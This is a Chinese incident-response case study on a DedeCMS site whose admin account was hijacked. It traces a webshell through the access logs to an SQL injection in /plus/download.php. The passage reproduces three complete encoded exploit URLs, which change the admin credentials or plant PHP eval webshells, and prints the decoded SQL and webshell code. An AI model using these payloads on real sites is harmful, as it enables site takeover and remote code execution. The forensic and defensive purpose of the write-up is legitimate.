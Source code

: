 ## 第8篇：管理员账号被篡改

​		你是某一个网站的管理员，有一天，你的管理员账号admin却登录不了，进入数据库查看，原来管理员账号用户名不存在了，却多了另外一个管理员用户名。不对，不是新增了管理员，而是你的管理员用户名被篡改了。

### 现象描述

前后端分离，后台只允许内网访问，管理员账号admin却依然被多次被篡改

### 问题处理

**1、网站webshell**

在针对网站根目录进行webshell扫描，发现存在脚本木马，创建时间为2018-06-13 04:30:30

![](.\image\8-1.png)

**2、 定位IP** 

通过木马创建时间， 查看网站访问日志，定位到IP为：180.xx.xx.3

![](.\image\8-2.png)

**3、关联分析**

全局搜索与该IP有关的操作日志：

![](.\image\8-3.png)

在脚本木马生成前，有两条比较可疑的访问日志吸引了我们的注意：

`172.16.1.12 180.xx.xxx.3 - - [10/Jun/2018:08:41:43 +0800] "GET /plus/download.php?open=1&arrs1[]=99&arrs1[]=102&arrs1[]=103&arrs1[]=95&arrs1[]=100&arrs1[]=98&arrs1[]=112&arrs1[]=114&arrs1[]=101&arrs1[]=102&arrs1[]=105&arrs1[]=120&arrs2[]=109&arrs2[]=121&arrs2[]=97&arrs2[]=100&arrs2[]=96&arrs2[]=32&arrs2[]=83&arrs2[]=69&arrs2[]=84&arrs2[]=32&arrs2[]=96&arrs2[]=110&arrs2[]=111&arrs2[]=114&arrs2[]=109&arrs2[]=98&arrs2[]=111&arrs2[]=100&arrs2[]=121&arrs2[]=96&arrs2[]=32&arrs2[]=61&arrs2[]=32&arrs2[]=39&arrs2[]=60&arrs2[]=63&arrs2[]=112&arrs2[]=104&arrs2[]=112&arrs2[]=32&arrs2[]=102&arrs2[]=105&arrs2[]=108&arrs2[]=101&arrs2[]=95&arrs2[]=112&arrs2[]=117&arrs2[]=116&arrs2[]=95&arrs2[]=99&arrs2[]=111&arrs2[]=110&arrs2[]=116&arrs2[]=101&arrs2[]=110&arrs2[]=116&arrs2[]=115&arrs2[]=40&arrs2[]=39&arrs2[]=39&arrs2[]=114&arrs2[]=101&arrs2[]=97&arrs2[]=100&arrs2[]=46&arrs2[]=112&arrs2[]=104&arrs2[]=112&arrs2[]=39&arrs2[]=39&arrs2[]=44&arrs2[]=39&arrs2[]=39&arrs2[]=60&arrs2[]=63&arrs2[]=112&arrs2[]=104&arrs2[]=112&arrs2[]=32&arrs2[]=101&arrs2[]=118&arrs2[]=97&arrs2[]=108&arrs2[]=40&arrs2[]=36&arrs2[]=95&arrs2[]=80&arrs2[]=79&arrs2[]=83&arrs2[]=84&arrs2[]=91&arrs2[]=120&arrs2[]=93&arrs2[]=41&arrs2[]=59&arrs2[]=101&arrs2[]=99&arrs2[]=104&arrs2[]=111&arrs2[]=32&arrs2[]=109&arrs2[]=79&arrs2[]=111&arrs2[]=110&arrs2[]=59&arrs2[]=63&arrs2[]=62&arrs2[]=39&arrs2[]=39&arrs2[]=41&arrs2[]=59&arrs2[]=63&arrs2[]=62&arrs2[]=39&arrs2[]=32&arrs2[]=87&arrs2[]=72&arrs2[]=69&arrs2[]=82&arrs2[]=69&arrs2[]=32&arrs2[]=96&arrs2[]=97&arrs2[]=105&arrs2[]=100&arrs2[]=96&arrs2[]=32&arrs2[]=61&arrs2[]=49&arrs2[]=57&arrs2[]=32&arrs2[]=35 HTTP/1.1" 200 67`  

`172.16.1.12 180.xx.xxx.3 - - [10/Jun/2018:08:41:43 +0800] "GET /plus/ad_js.php?aid=19 HTTP/1.1" 200 32` 

对这段POC进行解码，我们发现通过这个poc可以往数据库中插入数据，进一步访问/plus/ad_js.php?aid=19 即可在plus目录生成read.php脚本文件。

![](.\image\8-4.png)

解码后：

cfg_dbprefixmyad` SET `normbody` = '<?php file_put_contents(''read.php'',''<?php eval($_POST[x]);echo mOon;?>'');?>' WHERE `aid` =19 #  

综上，可以推测/plus/download.php中可能存在SQL注入漏洞，接下来，收集网上已公开的有以下3种EXP进行漏洞复现。

#### 漏洞复现

**利用方式一：修改后台管理员**

1、新建管理员账号test/test123789，可以成功登录网站后台

2、构造如下注入SQL语句：

`cfg_dbprefixadmin SETuserid='spider',pwd`='f297a57a5a743894a0e4' where id=19 #`

修改后台管理员为：用户名spider，密码admin。

（3）对应的EXP:

`？open=1&arrs1[]=99&arrs1[]=102&arrs1[]=103&arrs1[]=95&arrs1[]=100&arrs1[]=98&arrs1[]=112&arrs1[]=114&arrs1[]=101&arrs1[]=102&arrs1[]=105&arrs1[]=120&arrs2[]=97&arrs2[]=100&arrs2[]=109&arrs2[]=105&arrs2[]=110&arrs2[]=96&arrs2[]=32&arrs2[]=83&arrs2[]=69&arrs2[]=84&arrs2[]=32&arrs2[]=96&arrs2[]=117&arrs2[]=115&arrs2[]=101&arrs2[]=114&arrs2[]=105&arrs2[]=100&arrs2[]=96&arrs2[]=61&arrs2[]=39&arrs2[]=115&arrs2[]=112&arrs2[]=105&arrs2[]=100&arrs2[]=101&arrs2[]=114&arrs2[]=39&arrs2[]=44&arrs2[]=32&arrs2[]=96&arrs2[]=112&arrs2[]=119&arrs2[]=100&arrs2[]=96&arrs2[]=61&arrs2[]=39&arrs2[]=102&arrs2[]=50&arrs2[]=57&arrs2[]=55&arrs2[]=97&arrs2[]=53&arrs2[]=55&arrs2[]=97&arrs2[]=53&arrs2[]=97&arrs2[]=55&arrs2[]=52&arrs2[]=51&arrs2[]=56&arrs2[]=57&arrs2[]=52&arrs2[]=97&arrs2[]=48&arrs2[]=101&arrs2[]=52&arrs2[]=39&arrs2[]=32&arrs2[]=119&arrs2[]=104&arrs2[]=101&arrs2[]=114&arrs2[]=101&arrs2[]=32&arrs2[]=105&arrs2[]=100&arrs2[]=61&arrs2[]=49&arrs2[]=57&arrs2[]=32&arrs2[]=35` 

执行EXP后，相应后台数据库表变为如下：

![](.\image\8-5.png)

（4）因此相应后台登录用户变为spider密码admin

**利用方式二：通过/plus/mytag_js.php文件生成一句话木马php**

（1）如：构造如下注入SQL语句：

`cfg_dbprefixmytag(aid,expbody,normbody) VALUES(9013,@\','{dede:php}file_put_contents(''90sec.php'',''<?php eval($_POST[guige]);?>'');{/dede:php}') # @\'``

（2）对应的EXP:

`?open=1&arrs1[]=99&arrs1[]=102&arrs1[]=103&arrs1[]=95&arrs1[]=100&arrs1[]=98&arrs1[]=112&arrs1[]=114&arrs1[]=101&arrs1[]=102&arrs1[]=105&arrs1[]=120&arrs2[]=109&arrs2[]=121&arrs2[]=116&arrs2[]=97&arrs2[]=103&arrs2[]=96&arrs2[]=32&arrs2[]=40&arrs2[]=97&arrs2[]=105&arrs2[]=100&arrs2[]=44&arrs2[]=101&arrs2[]=120&arrs2[]=112&arrs2[]=98&arrs2[]=111&arrs2[]=100&arrs2[]=121&arrs2[]=44&arrs2[]=110&arrs2[]=111&arrs2[]=114&arrs2[]=109&arrs2[]=98&arrs2[]=111&arrs2[]=100&arrs2[]=121&arrs2[]=41&arrs2[]=32&arrs2[]=86&arrs2[]=65&arrs2[]=76&arrs2[]=85&arrs2[]=69&arrs2[]=83&arrs2[]=40&arrs2[]=57&arrs2[]=48&arrs2[]=49&arrs2[]=51&arrs2[]=44&arrs2[]=64&arrs2[]=96&arrs2[]=92&arrs2[]=39&arrs2[]=96&arrs2[]=44&arrs2[]=39&arrs2[]=123&arrs2[]=100&arrs2[]=101&arrs2[]=100&arrs2[]=101&arrs2[]=58&arrs2[]=112&arrs2[]=104&arrs2[]=112&arrs2[]=125&arrs2[]=102&arrs2[]=105&arrs2[]=108&arrs2[]=101&arrs2[]=95&arrs2[]=112&arrs2[]=117&arrs2[]=116&arrs2[]=95&arrs2[]=99&arrs2[]=111&arrs2[]=110&arrs2[]=116&arrs2[]=101&arrs2[]=110&arrs2[]=116&arrs2[]=115&arrs2[]=40&arrs2[]=39&arrs2[]=39&arrs2[]=57&arrs2[]=48&arrs2[]=115&arrs2[]=101&arrs2[]=99&arrs2[]=46&arrs2[]=112&arrs2[]=104&arrs2[]=112&arrs2[]=39&arrs2[]=39&arrs2[]=44&arrs2[]=39&arrs2[]=39&arrs2[]=60&arrs2[]=63&arrs2[]=112&arrs2[]=104&arrs2[]=112&arrs2[]=32&arrs2[]=101&arrs2[]=118&arrs2[]=97&arrs2[]=108&arrs2[]=40&arrs2[]=36&arrs2[]=95&arrs2[]=80&arrs2[]=79&arrs2[]=83&arrs2[]=84&arrs2[]=91&arrs2[]=103&arrs2[]=117&arrs2[]=105&arrs2[]=103&arrs2[]=101&arrs2[]=93&arrs2[]=41&arrs2[]=59&arrs2[]=63&arrs2[]=62&arrs2[]=39&arrs2[]=39&arrs2[]=41&arrs2[]=59&arrs2[]=123&arrs2[]=47&arrs2[]=100&arrs2[]=101&arrs2[]=100&arrs2[]=101&arrs2[]=58&arrs2[]=112&arrs2[]=104&arrs2[]=112&arrs2[]=125&arrs2[]=39&arrs2[]=41&arrs2[]=32&arrs2[]=35&arrs2[]=32&arrs2[]=64&arrs2[]=96&arrs2[]=92&arrs2[]=39&arrs2[]=96` 

（3）执行EXP后，将向数据库表dede_mytag中插入一条记录，

![](.\image\8-6.png)

（4）执行如下语句，在/plus目录下生成90sec.php一句话木马 http://www.xxxx.com/plus/mytag_js.php?aid=9013

**利用方式三：使/plus/ad_js.php文件变为一句话木马php**

（1）如：构造如下注入SQL语句：

`cfg_dbprefixmyadSETnormbody= '<?php file_put_contents(''read.php'',''<?php eval($_POST[x]);echo mOon;?>'');?>' WHEREaid` =19 #`  

（2）对应的EXP:

`/plus/download.php?open=1&arrs1[]=99&arrs1[]=102&arrs1[]=103&arrs1[]=95&arrs1[]=100&arrs1[]=98&arrs1[]=112&arrs1[]=114&arrs1[]=101&arrs1[]=102&arrs1[]=105&arrs1[]=120&arrs2[]=109&arrs2[]=121&arrs2[]=97&arrs2[]=100&arrs2[]=96&arrs2[]=32&arrs2[]=83&arrs2[]=69&arrs2[]=84&arrs2[]=32&arrs2[]=96&arrs2[]=110&arrs2[]=111&arrs2[]=114&arrs2[]=109&arrs2[]=98&arrs2[]=111&arrs2[]=100&arrs2[]=121&arrs2[]=96&arrs2[]=32&arrs2[]=61&arrs2[]=32&arrs2[]=39&arrs2[]=60&arrs2[]=63&arrs2[]=112&arrs2[]=104&arrs2[]=112&arrs2[]=32&arrs2[]=102&arrs2[]=105&arrs2[]=108&arrs2[]=101&arrs2[]=95&arrs2[]=112&arrs2[]=117&arrs2[]=116&arrs2[]=95&arrs2[]=99&arrs2[]=111&arrs2[]=110&arrs2[]=116&arrs2[]=101&arrs2[]=110&arrs2[]=116&arrs2[]=115&arrs2[]=40&arrs2[]=39&arrs2[]=39&arrs2[]=114&arrs2[]=101&arrs2[]=97&arrs2[]=100&arrs2[]=46&arrs2[]=112&arrs2[]=104&arrs2[]=112&arrs2[]=39&arrs2[]=39&arrs2[]=44&arrs2[]=39&arrs2[]=39&arrs2[]=60&arrs2[]=63&arrs2[]=112&arrs2[]=104&arrs2[]=112&arrs2[]=32&arrs2[]=101&arrs2[]=118&arrs2[]=97&arrs2[]=108&arrs2[]=40&arrs2[]=36&arrs2[]=95&arrs2[]=80&arrs2[]=79&arrs2[]=83&arrs2[]=84&arrs2[]=91&arrs2[]=120&arrs2[]=93&arrs2[]=41&arrs2[]=59&arrs2[]=101&arrs2[]=99&arrs2[]=104&arrs2[]=111&arrs2[]=32&arrs2[]=109&arrs2[]=79&arrs2[]=111&arrs2[]=110&arrs2[]=59&arrs2[]=63&arrs2[]=62&arrs2[]=39&arrs2[]=39&arrs2[]=41&arrs2[]=59&arrs2[]=63&arrs2[]=62&arrs2[]=39&arrs2[]=32&arrs2[]=87&arrs2[]=72&arrs2[]=69&arrs2[]=82&arrs2[]=69&arrs2[]=32&arrs2[]=96&arrs2[]=97&arrs2[]=105&arrs2[]=100&arrs2[]=96&arrs2[]=32&arrs2[]=61&arrs2[]=49&arrs2[]=57&arrs2[]=32&arrs2[]=35`

（3）执行EXP后，将向数据库表dede_myad中插入一条记录。

（4）进一步访问/plus/ad_js.php?aid=19 即可在plus目录生成read.php脚本文件。

------

如何清除？

1、删除网站目录中的webshell

2、清除dede_myad、dede_mytag数据库表中插入的SQL语句，防止再次被调用生成webshell。

如何防御？

网站采用开源CMS搭建，建议及时对官方发布的系统补丁以及内核版本进行升级。

